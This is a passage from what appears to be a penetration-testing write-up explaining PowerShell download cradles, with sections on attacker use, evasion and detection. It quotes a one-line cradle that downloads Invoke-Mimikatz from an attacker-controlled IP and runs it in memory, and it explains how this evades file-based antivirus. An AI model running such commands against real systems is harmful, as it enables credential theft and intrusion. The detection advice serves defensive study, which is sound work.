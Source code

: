 ##### What is a Download Cradle? {#what-is-a-download-cradle}

In essence, a download cradle is a lightweight script or command that reaches out to the internet/host, downloads a file, and often executes it directly in memory. And that is why they work so well, as nothing is written to disk and instead runs in memory they are harder to detect:

-   **If we look at the** `invoke-mimikatz.ps1` **script we called**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.121:9000/Invoke-Mimikatz.ps1')`
    -   This reaches out to a remote URL (our attack hosts), download's the payload, and execute &amp; loads it into memory all in one go. (later on you will see me use this again but instead to create a reverse shell that is called upon loading into memory)


##### How Do Attackers Use Download Cradles: {#how-do-attackers-use-download-cradles}

There are multiple ways to leverage download cradles in various stages of an attack. The most common is often during initial access or lateral movement phases. Here are some common scenarios:

-   **Delivering Malware**: By downloading and running malware directly in memory, it is possible to bypass traditional file-based antivirus.
    -   This is often done by ransomware gangs.
-   **Moving Through a Network**: In the above case we can use cradles to download tools for privilege escalation or credential theft as we navigate a compromised network/machine.
-   **Running Exploits**: Tools like Metasploit use download cradles to quickly deliver payloads that exploit vulnerabilities and gain control over systems.


##### Why Download Cradles are Effective: {#why-download-cradles-are-effective}

-   They are a great attack approach as they are:
    -   **Stealthy**: As they work without writing to disk, they leave less evidence for traditional detection tools.
    -   **Compact**: Cradles can be as short as a single line of code (as you can see with invoke-mimikatz), making them hard to spot amid legitimate scripts.
    -   **Flexible**: They can be adjusted and modified allowing what is being downloaded to be executed in real-time, adapting to the environment.


##### Detecting and Stopping Download Cradles: {#detecting-and-stopping-download-cradles}

While they’re sneaky, download cradles can be detected with the right strategies:

-   **Network Monitoring**: Watching for suspicious connections or repeated download attempts from unusual sources can reveal download cradle activity.
-   **Script Restrictions**: Limit the use of `PowerShell`, `Curl`, or `Wget` in environments where they aren’t essential. `PowerShell`, for instance, can be configured to block the `Invoke-WebRequest` command or require execution approval.
-   **EDR Solutions**: Endpoint Detection and Response (EDR) tools can help track process execution and identify cradle behaviors based on known patterns and heuristics.


### Creating a new user who is part of the administrators group: {#creating-a-new-user-who-is-part-of-the-administrators-group}
